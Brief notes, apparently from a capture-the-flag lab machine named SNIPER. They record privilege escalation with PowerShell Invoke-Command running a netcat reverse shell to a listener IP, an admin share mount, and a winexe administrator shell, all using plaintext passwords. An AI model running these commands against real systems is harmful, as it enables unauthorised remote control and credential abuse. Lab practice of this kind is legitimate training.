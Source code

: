 
## Escaladating from one user to another using netcat
```$user = "SNIPER\\Chris"```
```$password = "36mEAhz/B8xQ~2VM"```
```$securePassword = ConvertTo-SecureString $password -AsPlainText -Force```
```$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword```
```Invoke-Command -ComputerName SNIPER -Credential $credential -ScriptBlock { C:\tmp\nc.exe -e powershell.exe 10.10.16.22 5555}```

## Once I had the creds
```C:\inetpub\new-site>net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"```

## Or to get shell
```root@kali# winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe```
